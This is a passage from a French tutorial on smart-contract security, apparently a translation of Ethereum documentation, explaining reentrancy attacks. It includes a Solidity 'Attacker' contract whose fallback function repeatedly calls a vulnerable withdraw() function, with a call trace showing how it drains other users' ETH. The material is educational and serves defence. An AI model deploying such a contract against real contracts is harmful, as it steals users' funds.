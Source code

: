 Pour permettre à un utilisateur de retirer l'ETH qu'il a précédemment stocké dans le contrat, cette fonction :

1. lit le solde de l'utilisateur ;
2. lui envoie le solde en ETH ;
3. réinitialise le solde à 0, de sorte que l'utilisateur ne puisse pas retirer le solde de nouveau.

Si elle est appelée à partir d'un compte normal (comme celui de votre propre compte Metamask), ça fonctionne attendu : msg.sender.call.value() envoie simplement l'ETH vers votre compte. Toutefois, les contrats intelligents peuvent également effectuer des appels. Si un contrat personnalisé et malveillant appelle la fonction `withdraw()`, msg.sender.call.value() n'enverra pas le montant d'ETH (via `amount`), mais appellera aussi implicitement le contrat pour commencer à exécuter du code. Imaginez le contrat malveillant suivant :

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Appeler Attacker.beginAttack() démarrera un cycle qui ressemble à quelque chose comme ça :

```
0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() deposits 1 ETH into Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)
```

Appeller Attacker.beginAttack avec 1 ETH génère une nouvelle attaque par réentrance contre la victime, retirant plus d'ETH qu'il n'en a été fourni (prélevé sur les soldes des autres utilisateurs, entraînant une sous-garantie du contrat de la victime)

### Comment gérer la réentrance (de la mauvaise façon) {#how-to-deal-with-re-entrancy-the-wrong-way}

